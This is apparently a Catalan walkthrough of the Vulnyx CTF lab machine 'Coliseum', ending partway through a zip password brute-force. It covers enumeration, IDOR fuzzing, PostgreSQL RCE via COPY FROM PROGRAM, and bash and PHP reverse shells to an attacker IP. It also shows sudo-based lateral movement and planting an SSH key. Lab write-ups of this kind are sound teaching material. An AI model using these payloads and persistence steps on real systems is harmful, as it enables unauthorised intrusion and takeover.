










## Taula de continguts

## Enumeración

En aquest apartat es detallen les eines emprades per realitzar una enumeració del sistema objectiu.

### Escaneo con nmap

Comencem realitzant una enumeració de ports amb nmap.

```bash
$ nmap -p- -sVC 192.168.1.113
Starting Nmap 7.93 ( https://nmap.org ) at 2025-12-08 23:25 CET
Nmap scan report for 192.168.1.113
Host is up (0.000095s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 10.0p2 Debian 7 (protocol 2.0)
80/tcp   open  http            Apache httpd 2.4.65 ((Debian))
|_http-title: Arena Entrance
|_http-server-header: Apache/2.4.65 (Debian)
5432/tcp open  ssl/postgresql?
| ssl-cert: Subject: commonName=coliseum
| Subject Alternative Name: DNS:coliseum
| Not valid before: 2025-12-05T23:22:04
|_Not valid after:  2035-12-03T23:22:04
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds
```

La comanda `nmap -p- -sVC 192.168.1.113` realitza un escaneig complet de ports i serveis sobre l'adreça IP objectiu.

- `-p-` indica a nmap que escanege **tots els ports TCP** (de l'1 al 65535), no només els ports comuns.
- `-sV` activa la **detecció de versions** per identificar el programari i les versions dels serveis als ports oberts.
- `-sC` executa els **scripts per defecte** de nmap (`--script=default`) per obtenir informació addicional o descobrir vulnerabilitats conegudes.
- Es poden usar les opcions `-sV` i `-sC` juntes com `-sVC`, o de forma separada si només interessa una de les dues funcionalitats.
- `192.168.1.113` és l'**adreça IP objectiu** que es va a analitzar.

En aquest cas, l'escaneig revela tres ports oberts:

- **22/tcp (SSH)**: Accés remot (OpenSSH 10.0p2). Vector potencial si hi ha credencials febles.
- **80/tcp (HTTP)**: Servei web (Apache 2.4.65). Superfície principal per atacs i enumeració.
- **5432/tcp (PostgreSQL)**: Base de dades accessible per SSL. Pot ser explotada si la configuració o les credencials són febles.

Amb aquests descobriments, es defineixen els primers vectors d'atac a investigar en fases posteriors de l'anàlisi.

### Fingerprinting del Servei Web amb WhatWeb

En detectar el port 80/tcp (HTTP) obert, empram la comanda:

`whatweb http://192.168.1.113 -v`

Aquesta comanda analitza el lloc web objectiu per identificar tecnologies i configuracions. En aquest cas:

- `whatweb`: eina de fingerprinting web.
- `http://192.168.1.113`: URL de destinació.
- `-v`: mode detallat (verbose) per mostrar tota la informació trobada.

Així obtenim una visió clara dels frameworks, capçaleres, cookies i versions que utilitza el servidor web, la qual cosa és fonamental per reconèixer possibles vectors d'atac.

```bash
$ whatweb http://192.168.1.113 -v
WhatWeb report for http://192.168.1.113
Status    : 200 OK
Title     : Arena Entrance
IP        : 192.168.1.113
Country   : RESERVED, ZZ

Summary   : Apache[2.4.65], Cookies[PHPSESSID], HTML5, HTTPServer[Debian Linux][Apache/2.4.65 (Debian)], HttpOnly[PHPSESSID], Script, UncommonHeaders[content-security-policy,x-content-type-options,referrer-policy], X-Frame-Options[DENY]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and 
        maintain an open-source HTTP server for modern operating 
        systems including UNIX and Windows NT. The goal of this 
        project is to provide a secure, efficient and extensible 
        server that provides HTTP services in sync with the current 
        HTTP standards. 

        Version      : 2.4.65 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ Cookies ]
        Display the names of cookies in the HTTP headers. The 
        values are not returned to save on space. 

        String       : PHPSESSID

[ HTML5 ]
        HTML version 5, detected by the doctype declaration 


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Debian Linux
        String       : Apache/2.4.65 (Debian) (from server string)

[ HttpOnly ]
        If the HttpOnly flag is included in the HTTP set-cookie 
        response header and the browser supports it then the cookie 
        cannot be accessed through client side script - More Info: 
        http://en.wikipedia.org/wiki/HTTP_cookie 

        String       : PHPSESSID

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 


[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all 
        the standard headers and many non standard but common ones. 
        Interesting but fairly common headers should have their own 
        plugins, eg. x-powered-by, server and x-aspnet-version. 
        Info about headers can be found at www.http-stats.com 

        String       : content-security-policy,x-content-type-options,referrer-policy (from headers)

[ X-Frame-Options ]
        This plugin retrieves the X-Frame-Options value from the 
        HTTP header. - More Info: 
        http://msdn.microsoft.com/en-us/library/cc288472%28VS.85%29.
        aspx

        String       : DENY

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Mon, 08 Dec 2025 22:26:48 GMT
        Server: Apache/2.4.65 (Debian)
        Set-Cookie: PHPSESSID=9a9230ff6afc0d8883e6956477a20167; path=/; HttpOnly; SameSite=Lax
        Expires: Thu, 19 Nov 1981 08:52:00 GMT
        Cache-Control: no-store, no-cache, must-revalidate
        Pragma: no-cache
        Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; script-src 'self'; font-src 'self'; form-action 'self'; base-uri 'self'; frame-ancestors 'none'; object-src 'none';
        X-Content-Type-Options: nosniff
        X-Frame-Options: DENY
        Referrer-Policy: same-origin
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 792
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

### Força Bruta de Directoris amb Gobuster

Per enumerar possibles fitxers i directoris ocults al servidor web, es va utilitzar **Gobuster** amb una wordlist comuna i extensions rellevants:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.113/ -x html,php,js,txt,zip,tar
```

Amb aquesta comanda es van identificar rutes i fitxers ocults útils per a la posterior explotació.

```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.1.113/ -x html,php,js,txt,zip,tar
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.113/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,zip,tar,html,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1938]
/login.php            (Status: 200) [Size: 1990]
/profile.php          (Status: 302) [Size: 0] [--> /login.php]
/register.php         (Status: 200) [Size: 2617]
/tools                (Status: 301) [Size: 314] [--> http://192.168.1.113/tools/]
/assets               (Status: 301) [Size: 315] [--> http://192.168.1.113/assets/]
/lib                  (Status: 301) [Size: 312] [--> http://192.168.1.113/lib/]
/logout.php           (Status: 302) [Size: 0] [--> /index.php]
/config.php           (Status: 200) [Size: 0]
/bootstrap.php        (Status: 200) [Size: 0]
/server-status        (Status: 403) [Size: 278]
Progress: 1543899 / 1543899 (100.00%)
===============================================================
Finished
===============================================================
```

L'escaneig amb Gobuster va permetre identificar rutes clau com `/login.php`, `/register.php`, `/profile.php`, `/logout.php`, així com fitxers sensibles (`config.php`, `bootstrap.php`) i directoris com `/tools`, `/assets` i `/lib`, facilitant el reconeixement de l'estructura de la web i possibles vectors d'atac.

### Enumeració manual servei web

Busquem pels diferents directoris, molts d'ells amb directory listing activat, però no obtenim res rellevant.



> A la pàgina principal, en situar el cursor sobre la imatge, s'escolta un crit i apareix la imatge d'un conill ensangonat. Per això, es recomana **tenir cura amb el volum dels altaveus**.

A continuació, creem el nostre perfil de **gladiador** des de la pàgina de registre (`/register.php`). Un cop registrats, se'ns redirigeix automàticament al perfil del nostre gladiador.

## Intrusió

### Vulnerabilitat IDOR (Insecure Direct Object Reference)

En revisar el perfil del gladiador, es detecta una vulnerabilitat de tipus IDOR (Insecure Direct Object Reference) relacionada amb identificadors en números romans, que permet accedir als perfils d'altres usuaris simplement modificant el paràmetre corresponent a la URL.



Per automatitzar el procés d'enumeració d'usuaris afectats per l'IDOR, necessitem un diccionari de números romans que cobreixi tot el rang d'identificadors possibles. Cada perfil de gladiador és accessible mitjançant una URL que utilitza un identificador en números romans (per exemple, `gladiator_id=XXV`).

Per això, generem un fitxer (`romanos.txt`) que contingui tots els números romans des d'I fins al número màxim assignat al nostre usuari en registrar-nos. Aquest diccionari ens permetrà provar cada identificador consecutivament i així descobrir a quins perfils tenim accés indegut.

A continuació, el script de Python utilitzat per generar aquest llistat:

```python
# generar_romanos.py
def int_a_romano(num: int) -> str:
    valores = [1000, 900, 500, 400,
               100, 90, 50, 40,
               10, 9, 5, 4, 1]
    simbolos = ["M", "CM", "D", "CD",
                "C", "XC", "L", "XL",
                "X", "IX", "V", "IV", "I"]

    res = ""
    i = 0
    while num > 0:
        for _ in range(num // valores[i]):
            res += simbolos[i]
            num -= valores[i]
        i += 1
    return res


for n in range(1, 464):  # 1 a 463
    print(int_a_romano(n))
```

Executem el script per bolcar la llista de romans en un fitxer pla, que posteriorment emprarem en els nostres atacs de força bruta contra el paràmetre vulnerable:

```bash
python3 generar_romanos.py > romanos.txt
```

D'aquesta manera, obtenim un llistat amb un número romà per línia, des d'I fins a CDLXIII, llest per ser utilitzat en eines de fuzzing com ffuf, facilitant la cerca d'identificadors d'usuari vàlids.

Donat que la vulnerabilitat IDOR només es pot explotar estant autenticats, iniciem sessió amb el nostre usuari i, mitjançant les eines de desenvolupament de Firefox, recuperem el valor de la cookie `PHPSESSID`, que anotem per al seu ús en la següent comanda.



A continuació, empram la cookie de sessió (`PHPSESSID`) obtinguda per realitzar força bruta sobre el paràmetre vulnerable mitjançant l'eina ffuf, provant l'accés a tots els perfils possibles:

```bash
ffuf -H $'Host: 192.168.1.113' \
     -b $'PHPSESSID=13290fd2151cd05d754b3ea972eedb98' \
     -u $'http://192.168.1.113/profile.php?gladiator_id=FUZZ' \
     -w ./romanos.txt
```

Com totes les respostes tenien 433 paraules, usem `-fw 433` a ffuf per filtrar només les diferents.

```bash
ffuf -H $'Host: 192.168.1.113' \
     -b $'PHPSESSID=13290fd2151cd05d754b3ea972eedb98' \
     -u $'http://192.168.1.113/profile.php?gladiator_id=FUZZ' \
     -w ./romanos.txt \
     -fw 433 \
     -o profiles.html -of html
```

**Descripció detallada de la comanda:**

- `-H $'Host: 192.168.1.113'`: Estableix la capçalera HTTP Host al valor objectiu.
- `-b $'PHPSESSID=...'`: Inclou la cookie de sessió activa necessària per accedir a la funcionalitat autenticada.
- `-u ...?gladiator_id=FUZZ`: Indica el punt d'injecció on ffuf substituirà la cadena `FUZZ` per cada valor de la llista.
- `-w ./romanos.txt`: Especifica el diccionari de números romans que vam generar prèviament.
- `-fw 433`: Filtra totes aquelles respostes que tinguin exactament 433 paraules, permetent identificar únicament aquells perfils que retornen una resposta diferent (probablement perfils reals o accessibles).
- `-o profiles.html`: Desa el resultat de la cerca en un fitxer HTML anomenat `profiles.html`, la qual cosa facilita la revisió i l'anàlisi posterior dels resultats.
- `-of html`: Especifica que el format de sortida sigui HTML, ideal per a una visualització estructurada al navegador.


D'aquesta manera, identifiquem fàcilment els perfils vàlids i obtenim un fitxer HTML que ens permet revisar-los de manera visual i còmoda.

Obrim el fitxer generat i anem revisant cada resultat, accedint als diferents perfils de gladiadors. Al perfil del gladiador `Vero`, amb l'ID `CDIX`, localitzem unes credencials de PostgreSQL que han estat filtrades a la pàgina.

http://192.168.1.113/profile.php?gladiator_id=CDIX

```
pgsql:host=db;port=5432;dbname=colosseum_app;sslmode=disable;password=0Qn5311Ov4NQApPX9G4Z;user=colosseum_user
```



### RCE en PostgreSQL

Si encara no tens instal·lat el client de PostgreSQL (`psql`), pots instal·lar-lo fàcilment. En sistemes basats en Debian o Ubuntu, executa:

```bash
sudo apt update
sudo apt install postgresql-client
```

En sistemes basats en Red Hat o Fedora seria:

```bash
sudo dnf install postgresql
```

Un cop instal·lat, et pots connectar al port PostgreSQL que vam descobrir prèviament amb nmap utilitzant les credencials filtrades:

```bash
psql -h 192.168.1.113 -U colosseum_user colosseum_app
```



Si executem la comanda `\d` a la consola de PostgreSQL, obtindrem un llistat de les taules, vistes i seqüències existents a la base de dades, la qual cosa ens ajuda a entendre la seva estructura i els objectes disponibles. D'altra banda, la comanda `\du` mostra la llista de rols o usuaris definits al sistema, juntament amb els privilegis de cadascun (com permisos de superusuari, creació de bases de dades, connexions, etc.). En revisar aquesta informació, comprovem que l'usuari filtrat disposa de privilegis de superusuari. 😊



Podem obtenir execució de comandes al sistema a través de PostgreSQL utilitzant el següent procediment:

Primer, aprofitem la funció `COPY ... FROM PROGRAM` per executar comandes arbitràries des de la base de dades. Per exemple, amb aquest payload podem executar la comanda `id` i veure el seu resultat:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```



A continuació, preparem un listener a la nostra màquina atacant per rebre una reverse shell:

```bash
nc -lvnp 1234
```

Després, llancem una reverse shell des de PostgreSQL executant la següent comanda. Recorda modificar la IP `192.168.1.196` per la de la teva màquina atacant:

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'bash -c "/bin/bash -i >& /dev/tcp/192.168.1.196/1234 0>&1"';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```

D'aquesta forma, aconseguim una shell interactiva a la màquina víctima amb l'usuari `postgres`:




## Moviment lateral (de postgres a cesar)

Amb la shell de `postgres`, comprovem els permisos de `sudo` per buscar escalada de privilegis:

```bash
postgres@coliseum:/var/lib/postgresql/17/main$ sudo -l
Matching Defaults entries for postgres on coliseum:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User postgres may run the following commands on coliseum:
    (cesar) NOPASSWD: /usr/bin/php /var/www/html/tools/backup.php
postgres@coliseum:/var/lib/postgresql/17/main$ ls -la /var/www/html/tools/backup.php
-rw-rw-r-- 1 www-data postgres 262 Dec  8 23:31 /var/www/html/tools/backup.php
```

L'usuari `postgres` pot executar `/var/www/html/tools/backup.php` com `cesar` mitjançant `sudo` i, a més, té permisos d'escriptura sobre el fitxer. Això ens permet editar `backup.php`, afegir una reverse shell en PHP i després executar-la com `cesar` per obtenir una shell amb aquest usuari.

```php
exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.196/12345 0>&1'");
```

> 💡 **Nota:** Recorda reemplaçar la IP per la de la teva màquina atacant si fos necessari. Pots localitzar el lloc exacte per inserir el codi maliciós, però en aquest cas n'hi ha prou amb afegir-lo al final.

Així quedaria el contingut (part rellevant) del fitxer després de l'edició:



Seguidament, necessitem preparar l'entorn per rebre la connexió entrant des de la reverse shell. En una terminal de la nostra màquina atacant, llancem un listener usant `netcat` al port corresponent:

```bash
nc -lvnp 12345
```

Per últim, ja només queda provocar l'execució de l'script modificat com l'usuari `cesar` usant el permís de `sudo` detallat abans:

```bash
sudo -u cesar /usr/bin/php /var/www/html/tools/backup.php
```

En quant el codi PHP maliciós s'executa, la reverse shell es connecta amb èxit al nostre listener, donant-nos accés interactiu a la màquina com l'usuari `cesar`. Des d'aquí ja tenim capacitat, per exemple, per llegir la flag `user.txt`, tal com s'observa a la següent imatge:




## Escalada de privilegis (de cesar a root)

Passem ara a la fase d'escalada de privilegis per convertir-nos en root des de l'usuari cesar.

### Millora de la shell: Accés SSH amb clau pública

En haver trobat el port 22 obert al servidor, una forma molt més pràctica i estable de treballar com `cesar` és accedint directament per SSH usant claus públiques. Així, evitem les limitacions de la reverse shell i obtenim una terminal interactiva i còmoda.

Els passos serien els següents:

1. **Genera un parell de claus SSH ed25519 a la teva màquina (si encara no el tens):**
   ```bash
   ssh-keygen -t ed25519
   ```
   Això crearà la teva clau privada (`~/.ssh/id_ed25519`) i pública (`~/.ssh/id_ed25519.pub`) al teu equip atacant.

2. **Copia la teva clau pública al servidor:**
   Copia el contingut de la teva clau pública (`~/.ssh/id_ed25519.pub`).

   A la sessió com cesar (per reverse shell), executa:
   ```bash
   mkdir -p ~/.ssh
   chmod 700 ~/.ssh
   echo 'TU_CLAVE_PUBLICA' >> ~/.ssh/authorized_keys
   chmod 600 ~/.ssh/authorized_keys
   ```

3. **Accedeix per SSH com cesar:**
   Ara ja et pots connectar còmodament des del teu equip:
   ```bash
   ssh -i ~/.ssh/id_ed25519 cesar@IP_DE_LA_MAQUINA
   ```

D'aquesta forma, treballaràs directament amb una shell SSH interactiva, sense restriccions i amb major estabilitat.

### Fitxer ZIP

Al directori personal de cesar trobem la flag `user.txt`, així com dos fitxers addicionals: un fitxer zip `cesar_I.zip` i un fitxer de text `initial_hint.txt`. Baixem tots dos a la nostra màquina local per poder analitzar-los amb major comoditat.

```bash
cesar@coliseum:~$ ls -l
total 128
-rw-r--r-- 1 cesar cesar 121350 Dec  8 23:10 cesar_I.zip
-rw-r--r-- 1 cesar cesar    237 Dec  8 23:11 initial_hint.txt
-rw--w---- 1 cesar cesar     33 Dec  8 20:10 user.txt
cesar@coliseum:~$ cat initial_hint.txt 
At the entrance of the Coliseum, the very first gate is sealed.
Its key was altered on Caesar's command, shifting each symbol along
a secret line of characters.

The elders only left this inscription for you:

KEY_FOR_CAESAR: uqclxh7glp

They also whispered that this secret line was forged
from all the lowercase letters… followed by the ten digits.
cesar@coliseum:~$ 
```

El fitxer zip està protegit per una contrasenya xifrada. El fitxer `initial_hint.txt` ens proporciona informació fonamental per resoldre aquest repte: indica que existeix una clau (`KEY_FOR_CAESAR: uqclxh7glp`) que ha estat alterada mitjançant un xifrat Cèsar, i aclareix que l'alfabet emprat consisteix en totes les lletres minúscules seguides dels deu dígits (`abcdefghijklmnopqrstuvwxyz0123456789`).

Això implica que cada caràcter de la clau ha estat desplaçat un número desconegut de posicions dins d'aquest alfabet estès (no només de la 'a' a la 'z', sinó continuant amb els números del 0 al 9). 

Per tant, per obtenir la contrasenya real del zip hem d'invertir aquest desplaçament tipus Cèsar sobre la clau proporcionada, provant els diferents valors de desplaçament fins trobar el correcte. Aquesta informació ens permet automatitzar el procés de força bruta únicament sobre l'alfabet definit.

Podem crear un script (en aquest cas, generat amb ajuda d'IA) que desxifri la contrasenya original del primer zip mitjançant aquest enfocament de força bruta:

**bruteforce_cesar_first.py**

```python
#!/usr/bin/env python3
import sys
import re
import string
import subprocess
import os

ALPHABET = string.ascii_lowercase + string.digits
KEY_PREFIX = "KEY_FOR_CAESAR:"


def caesar(text, shift):
    """Aplica un desplazamiento tipo César sobre ALPHABET (a-z0-9)."""
    res = []
    n = len(ALPHABET)
    for ch in text:
        if ch in ALPHABET:
            idx = ALPHABET.index(ch)
            res.append(ALPHABET[(idx + shift) % n])
        else:
            res.append(ch)
    return "".join(res)


def extract_key_from_file(path):
    """Busca la línea KEY_FOR_CAESAR: ... y devuelve el valor."""
    with open(path, "r", encoding="utf-8", errors="ignore") as f:
        for line in f:
            if KEY_PREFIX in line:
                m = re.search(rf"{KEY_PREFIX}\s*(\S+)", line)
                if m:
                    return m.group(1).strip()
    return None


def test_zip_password(zip_path, password):
    """
    Prueba la contraseña contra el ZIP usando 'unzip -t' (solo test, no extrae).
    Devuelve True si la contraseña es correcta.
    """
    # -t = test archive, -P = password, -qq = quiet
    result = subprocess.run(
        ["unzip", "-t", "-P", password, zip_path],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    return result.returncode == 0


def main():
    # Uso:
    #   python3 bruteforce_first_zip.py [zip] [hint]
    #
    # Por defecto:
    #   zip  -> cesar_I.zip
    #   hint -> initial_hint.txt
    zip_name = sys.argv[1] if len(sys.argv) > 1 else "cesar_I.zip"
    hint_name = sys.argv[2] if len(sys.argv) > 2 else "initial_hint.txt"

    if not os.path.exists(zip_name):
        print(f"[!] No se encuentra el ZIP: {zip_name}")
        sys.exit(1)
    if not os.path.exists(hint_name):
        print(f"[!] No se encuentra el fichero de pista: {hint_name}")
        sys.exit(1)

    twisted = extract_key_from_file(hint_name)
    if not twisted:
        print(f"[!] No se encontró '{KEY_PREFIX}' en {hint_name}")
        sys.exit(1)

    print(f"[+] Texto 'retorcido' encontrado en {hint_name}: {twisted}\n")
    print(f"[+] Probando desplazamientos sobre {zip_name}...\n")

    for shift in range(len(ALPHABET)):
        candidate = caesar(twisted, -shift)  # deshacemos la “torsión”
        ok = test_zip_password(zip_name, candidate)

        print(f"shift={shift:2d} -> {candidate}  [{'OK' if ok else 'fail'}]")

        if ok:
            print("\n[+] ¡Contraseña válida encontrada!")
            print(f"    Password : {candidate}")
            print(f"    Shift    : {shift}")
            print("\nAhora puedes usarla, por ejemplo:")
            print(f"    unzip -P {candidate} {zip_name}")
            return

    print("\n[!] Ninguna de las claves probadas ha funcionado. Revisa que:")
    print("    - El ZIP y el hint corresponden a la misma generación de la cadena.")
    print("    - No has modificado 'initial_hint.txt' o el nombre del prefijo.")


if __name__ == "__main__":
    main()

```

Per tant, empram el script per desxifrar i accedir al contingut del fitxer zip.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/Coliseum]
└─$ python3 ./bruteforce_cesar_first.py
[+] Texto 'retorcido' encontrado en initial_hint.txt: uqclxh7glp

[+] Probando desplazamientos sobre cesar_I.zip...

shift= 0 -> uqclxh7glp  [fail]
shift= 1 -> tpbkwg6fko  [fail]
shift= 2 -> soajvf5ejn  [fail]
shift= 3 -> rn9iue4dim  [fail]
shift= 4 -> qm8htd3chl  [fail]
shift= 5 -> pl7gsc2bgk  [fail]
shift= 6 -> ok6frb1afj  [fail]
shift= 7 -> nj5eqa09ei  [fail]
shift= 8 -> mi4dp9z8dh  [fail]
shift= 9 -> lh3co8y7cg  [fail]
shift=10 -> kg2bn7x6bf  [fail]
